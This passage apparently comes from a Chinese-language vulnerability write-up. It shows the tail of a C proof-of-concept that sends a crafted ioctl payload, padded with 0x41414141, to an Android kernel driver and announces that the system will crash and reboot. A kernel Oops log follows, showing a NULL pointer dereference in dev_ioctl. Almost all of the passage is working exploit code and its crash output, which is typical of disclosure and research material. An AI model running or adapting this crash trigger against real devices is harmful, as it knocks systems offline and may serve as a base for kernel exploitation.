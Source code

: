        0x458603f4,
        0xffff007f,
        0xa9030f02,
        0x00000001,
        0x002cffff,
        0x9e00cdff,
        0x00000004,
        0x41414141,
        0x41414141,
        0x41414141,
        0x41414141 };

            int fd = 0;
            fd = open(driver, O_RDWR);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }
    崩溃日志
    [  164.793151] Unable to handle kernel NULL pointer dereference at virtual address 00000037
    [  164.802459] pgd = c26ec000
    [  164.805664] [00000037] *pgd=82f42831, *pte=00000000, *ppte=00000000
    [  164.813415] Internal error: Oops: 17 [#1] PREEMPT SMP ARM
    [  164.819458] Modules linked in: omaplfb(O) pvrsrvkm(O) pvr_logger(O)
    [  164.827239] CPU: 1    Tainted: G           O  (3.4.83-gd2afc0bae69 #1)
    [  164.834686] PC is at dev_ioctl+0x4ac/0x10c4
    [  164.839416] LR is at down_timeout+0x40/0x5c
    [  164.844146] pc : [<c03178e8>]    lr : [<c006e9b8>]    psr: 60000013
    [  164.844146] sp : c25a1e70  ip : c25a1e50  fp : c25a1f04
    [  164.857116] r10: 00000000  r9 : d8c0aca8  r8 : bed5c610
    [  164.863128] r7 : c0a25b50  r6 : c25a0000  r5 : bed5c610  r4 : 0000000f
    [  164.870391] r3 : 00001403  r2 : 00000000  r1 : 20000013  r0 : 00000000
    [  164.877807] Flags: nZCv  IRQs on  FIQs on  Mode SVC_32  ISA ARM  Segment user
    [  164.885894] Control: 10c5387d  Table: 826ec04a  DAC: 00000015
    [  164.892303]
    [  164.892333] PC: 0xc0317868:
    [  164.897308] 7868  30d22003 33a03000 e3530000 0a0001c5 e3e0500d eaffff02 e1a0200d e3c26d7f
    [  164.907989] 7888  e3c6603f e5963008 e2952008 30d22003 33a03000 e3530000 1a000021 e24b3064
    [  164.918670] 78a8  e1a01005 e3a02008 e50b3088 e1a00003 ebfcfa5f e3500000 1a00001e e51b4060
    [  164.929351] 78c8  e3020710 e59f7bdc ebf4db32 e1a01000 e2870038 ebf55c25 e3500000 1a0002e0
    [  164.939880] 78e8  e5943028 e1a08000 e5940024 e1a02007 e2841024 e5803004 e5830000 e5b23070
    [  164.950561] 7908  e5871070 e2420038 e5831004 e5843024 e5842028 ebf55bb9 e50b8060 e50b8064
    [  164.961212] 7928  ea000006 e24b1064 e50b1088 e51b0088 e3a01008 ebfd0387 e3a03004 e50b3064
    [  164.971771] 7948  e5963008 e2952008 30d22003 33a03000 e3530000 1affffc5 e1a00005 e51b1088
    [  164.982299]
    [  164.982330] LR: 0xc006e938:
    [  164.987426] e938  e1a01000 0a000007 e3a05000 e2433001 e5843008 e1a00004 eb18d7ad e1a00005
    [  164.997955] e958  e24bd014 e89da830 e1a00004 e50b1018 eb18d135 e51b1018 e1a05000 eafffff4
    [  165.008636] e978  e1a0c00d e92dd878 e24cb004 e1a04000 e1a05001 eb18d91b e5943008 e3530000
    [  165.019317] e998  e1a06000 0a000007 e3a05000 e2433001 e5843008 e1a00004 e1a01006 eb18d794
    [  165.029846] e9b8  e1a00005 e89da878 e1a01005 e1a00004 eb18d158 e1a05000 eafffff5 e1a0c00d
    [  165.040374] e9d8  e92dd800 e24cb004 e5903000 e1a0c000 e3530000 0a00000b e5910008 e5932008